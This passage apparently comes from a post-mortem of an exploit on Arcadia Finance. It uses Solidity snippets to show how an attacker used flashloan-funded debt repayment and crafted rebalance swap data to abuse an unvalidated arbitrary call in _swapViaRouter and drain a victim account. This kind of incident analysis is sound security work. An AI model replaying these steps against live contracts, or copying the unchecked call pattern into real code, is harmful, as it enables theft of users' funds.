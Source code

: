 ```solidity

// Deposit assets into the account
IAccount(accounts[0]).deposit(
    assetAddresses,
    assetIds,
    assetAmounts
);
```

The attacker used the flashloan capital to repay the victim's account `cbBTC` debt. This placed the victim account in a healthy state, preventing safety mechanisms from triggering during fund extraction:

```solidity
arcadiaLendingPoolcbBTC.repay(
    wbtcWithdrawable,
    address(targetAccount)
);
```

Finally, the attacker triggered a rebalance operation in his own account by calling `rebalance()` with carefully crafted parameters:

```solidity
bytes memory swapData = getSwapData();

IRebalancerSpot(rebalancerSpot).rebalance(
    address(accounts[0]),
    address(nonFungiblePositionManagerAERO_CL_POS),
    tokenId,
    -81100,
    -80100,
    swapData
);
```

The function was called with the attacker's Arcadia account, position manager address for his LP position, the token ID, new tick range, and most importantly, the malicious swap data.

Instead of rebalancing through a DEX aggregator, the attacker used custom calldata to abuse missing validation and call the victim's Arcadia Account from within the Asset Manager context, making it appear as if the Asset Manager itself initiated the call.

```solidity
function _swapViaRouter(
    address positionManager,
    Rebalancer.PositionState memory position,
    bool zeroToOne,
    bytes memory swapData
) internal returns (uint256 balance0, uint256 balance1) {
    // Decode the swap data.
    (address router, uint256 amountIn, bytes memory data) = abi.decode(swapData, (address, uint256, bytes));

    //...

    // Execute arbitrary swap.
    (bool success, bytes memory result) = router.call(data);
    require(success, string(result));

    //...

}
```
